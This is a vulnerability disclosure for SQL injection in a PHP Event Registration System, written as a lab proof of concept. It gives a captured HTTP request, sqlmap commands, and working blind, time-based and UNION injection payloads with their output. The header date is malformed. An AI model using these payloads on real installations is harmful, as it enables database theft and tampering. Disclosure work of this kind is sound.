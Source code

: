 # Event Registration System - SQL Injection - 2
+ **Exploit Title:** Event Registration System - SQL Injection - 2
+ **Date:** 2024-14-07
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://www.sourcecodester.com/php/14884/event-registration-system-qr-code-php-free-source-code.html
+ **Software Link:** https://www.sourcecodester.com/download-code?nid=14884&title=Event+Registration+System+with+QR+Code+in+PHP+Free+Source+Code
+ **Version:** Latest
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
Event Registration System allows SQL Injection via the 'last_id' & 'event_id' parameters at "http://localhost/event/classes/Master.php?f=load_registration". 
Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost/event/registrar/"
+ Click a random event
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:

```
POST /event/classes/Master.php?f=load_registration HTTP/1.1
Host: localhost
Content-Length: 20
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
sec-ch-ua-platform: "Linux"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/event/registrar/?page=registration&e=c4ca4238a0b923820dcc509a6f75849b
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: language=en; continueCode=5vLeVxlRzkNb47vKDPMo5Lq8wdzLtvf1Hem0jn6EZm2ygrX19BpaQWOJY3oM; welcomebanner_status=dismiss; cookieconsent_status=dismiss; PHPSESSID=cc12r4c7k38a4endfa1btuk5he
Connection: close

last_id=2&event_id=1
```

+ Use sqlmap to exploit. In sqlmap, use 'last_id' parameter to dump the database.
```
sqlmap -r r.txt -p last_id --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: last_id (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: last_id=2' OR NOT 4089=4089-- Npvx&event_id=1

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: last_id=2' AND (SELECT 5354 FROM (SELECT(SLEEP(5)))KgqL)-- jnYr&event_id=1

    Type: UNION query
    Title: Generic UNION query (NULL) - 11 columns
    Payload: last_id=2' UNION ALL SELECT NULL,CONCAT(0x716b6b7171,0x6f4350686d655251537149534b756d56784d686f7a50437873734c6f7a4d524e675763707a694862,0x716a787671),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -&event_id=1
---
[18:26:11] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[18:26:11] [INFO] fetching current database
current database: 'event_db'
```
+ current database: `event_db`

![Ekran görüntüsü 2024-05-18 194055](https://github.com/BurakSevben/CVEs/assets/117217689/10b8f2de-f6b5-4d88-88fe-1a0cbc8e8cc7)


## event_id
+ Use sqlmap to exploit. In sqlmap, use 'event_id' parameter to dump the database.
```
sqlmap -r r.txt -p event_id --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: event_id (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: last_id=2&event_id=1' RLIKE (SELECT (CASE WHEN (5330=5330) THEN 1 ELSE 0x28 END)) AND 'zuSp'='zuSp

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: last_id=2&event_id=1' AND (SELECT 4811 FROM (SELECT(SLEEP(5)))MjrF) AND 'uICg'='uICg

    Type: UNION query
    Title: Generic UNION query (NULL) - 11 columns
    Payload: last_id=2&event_id=1' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x716b6b7171,0x456c4e534e465642716e6e6e73644678435a7646784e734c6f554a437071534d77416278714c7442,0x716a787671),NULL,NULL,NULL,NULL-- -
---
[18:27:22] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.2.12, Apache 2.4.58
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[18:27:22] [INFO] fetching current database
current database: 'event_db'
```
+ current database: `event_db`

![Ekran görüntüsü 2024-05-18 194947](https://github.com/BurakSevben/CVEs/assets/117217689/463c4b93-e0ca-4ff2-98ba-5b3e7f907753)



